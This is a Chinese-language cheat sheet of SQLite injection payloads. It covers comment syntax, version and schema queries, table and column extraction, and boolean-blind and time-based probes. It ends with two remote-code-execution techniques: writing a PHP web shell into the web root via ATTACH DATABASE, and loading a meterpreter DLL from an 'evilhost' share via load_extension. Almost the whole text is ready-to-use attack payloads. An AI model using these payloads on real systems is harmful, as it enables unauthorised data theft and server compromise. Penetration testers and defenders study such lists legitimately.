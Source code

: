   ##### 注释符
  	--
	/**/
  ##### 版本
	select sqlite_version();
  ##### 字符型注入 - 获取数据库结构
	SELECT sql FROM sqlite_schema
  ##### 整数/字符串型 - 提取表名
	SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
	使用limit X+1 offset X，提取所有表
  ##### 整数/字符串型 - 提取列名
	SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
	SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
  ##### 布尔类型 - 计算表数量
	and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
  ##### 布尔类型 - 枚举表名
	and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
  ##### 布尔类型 - 获取数据
	and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
  ##### 时间类型
	AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
  ##### 远程执行命令 - ATTACH DATABASE
	ATTACH DATABASE '/var/www/lol.php' AS lol;
	CREATE TABLE lol.pwn (dataz text);
	INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
  ##### 远程执行命令 - Load_extension
	UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
	默认情况下，此组件是禁用的